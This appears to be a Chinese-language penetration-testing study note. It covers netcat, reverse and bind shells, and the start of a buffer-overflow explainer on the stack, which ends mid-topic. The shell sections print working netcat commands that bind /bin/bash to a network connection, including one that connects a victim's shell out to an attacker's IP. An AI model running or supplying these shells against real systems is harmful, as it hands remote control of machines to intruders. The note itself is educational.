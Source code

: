 # connect & listen

## netcat

透过使用TCP或UDP协议的网络连接去读写数据

使用whoami验证

- Linux /bin/bash
- Windows cmd.exe

### reverse shell

```
# 攻击方 监听
nc -nvlp 4444


# 受害方连接运行shell
ncat -nv 10.211.55.26 4444 -e /bin/bash
```

### bind shell

```
# 受害方 监听
nc -nvlp 4444 -e /bin/bash


# 攻击方 连接运行shell
nc -nv 192.168.3.27 4444
```

# Buffer overflows


## 基本概念

### stack

内存中的一个特殊区域，用于存储由每个函数（包括main()函数）参数**传递的本地数据，返回地址**。

堆栈是一个
**LIFO**（后进先出）数据结构，该结构由CPU非常紧密地管理和优化。每当函数声明一个新变量时，它都会**push**到堆栈中。
然后，**当一个函数退出时，它的所有变量都会从堆栈中弹出**（也就是说，它们将被删除）。释放堆栈变量后，该内存区域可用于其他堆栈变量。

无需亲自管理内存，变量会自动分配和释放,堆栈有大小限制（os分配）,堆栈变量仅在创建它们的函数运行时存在，
快速访问（堆栈速度更快，因为**所有可用内存始终是连续**的。不需要维护所有可用内存段的列表，只需一个指向堆栈当前顶部的指针即可。）

CPU有效管理空间，内存不会碎片化，堆栈指针指向堆栈的顶部（堆栈中的最高地址）**由高到低地址，堆栈增长到底部**

